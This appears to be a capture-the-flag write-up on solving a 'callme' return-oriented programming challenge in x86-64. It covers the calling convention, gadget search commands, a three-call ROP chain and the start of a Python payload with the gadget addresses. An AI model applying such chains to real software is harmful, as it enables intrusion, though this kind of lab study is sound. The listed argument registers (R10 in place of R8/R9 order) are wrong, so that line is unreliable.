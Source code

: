 
Or also, command `objdump -D ./callme | grep callme` gives the same PLT addresses of callme functions

![image.png](image1.png)

---

## x86-64 (64-bit) Calling Convention

In x86-64, the standard calling convention on Unix-like systems is **System V AMD64 ABI**

### System V AMD64 ABI (Unix/Linux):

- **Arguments**: First six arguments are passed in **registers** (in order: `RDI`, `RSI`, `RDX`, `RCX`, `R10`, `R8`). Additional arguments are passed on the stack.
- **Return Value**: Stored in the **RAX** register.

It means the first argument `0xdeadbeef`  we place into `RDI` , the second argument `0xcafebabe`  into `RSI`, and the third argument `0xd00df00d` into `RDX` . It will be called like this        

`callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` 

---

## RDI, RSI, RDX gadgets

We need three gadgets to set up arguments for `callme` functions, each responsible for placing an argument into the `RDI`, `RSI`, and `RDX` registers.
We begin with `pop` and search with command `rp++ -r2 —unique -f ./callme | grep pop`

![image.png](image2.png)

One gadget(1) for `rdi` , another gadget (2 and 3) for `rsi`  and `rdx`  simultaneously.

![image.png](image3.png)

---

## ROP Chain

payload = `pop rdi; ret`  + `0xdeadbeefdeadbeef` + `pop rsi; pop rdx; ret`  + `0xcafebabecafebabe`  + `0xd00df00dd00df00d`  + `callme_one@plt` 

payload += `pop rdi; ret`  + `0xdeadbeefdeadbeef` + `pop rsi; pop rdx; ret`  + `0xcafebabecafebabe`  + `0xd00df00dd00df00d`  + `callme_two@plt` 

payload += `pop rdi; ret`  + `0xdeadbeefdeadbeef` + `pop rsi; pop rdx; ret`  + `0xcafebabecafebabe`  + `0xd00df00dd00df00d`  + `callme_three@plt` 

## Payload:

```python
from struct import pack

callme_one   = 0x0000000000400720
callme_two   = 0x0000000000400740
callme_three = 0x00000000004006f0

pop_rdi_ret = 0x4009a3 
pop_rsi_rdx_ret = 0x40093d

word1 = 0xdeadbeefdeadbeef
word2 = 0xcafebabecafebabe
word3 = 0xd00df00dd00df00d

```